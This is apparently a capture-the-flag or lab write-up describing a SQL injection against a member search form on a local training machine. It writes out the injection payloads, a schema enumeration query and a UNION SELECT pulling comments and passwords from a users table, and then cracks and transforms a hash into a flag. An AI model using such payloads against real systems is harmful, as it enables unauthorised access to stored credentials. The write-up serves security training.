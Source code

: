 We have a form to fill at the page "http://192.168.56.102/?page=member".

<img width="1307" alt="Screen Shot 2021-12-10 at 2 15 46 PM" src="https://user-images.githubusercontent.com/64800542/145579818-6fa28415-7c3f-47f0-b6c4-a7bb4f375bab.png">

It looks like backend use the input from it right in an SQL statement, like in the previus example. So we can use it for an "injection".

Let's take a look on schema:

>SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names.

Let's see what is inside the hidden columns:

>1 AND 1=2 UNION SELECT planet
>, CONCAT(Commentaire, countersign) FROM users;

<img width="1068" alt="Screen Shot 2021-12-10 at 2 16 33 PM" src="https://user-images.githubusercontent.com/64800542/145579847-e5aa13d8-3c92-4998-ad9c-efa91e766540.png">


>5ff9d0165b4f92b14994e5c685cdce28 >> md5 >> FortyTwo >> lower() >> sh256 >> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

A good habbit to prevent SQLi is to validate the input from users before use it in an SQL statement.



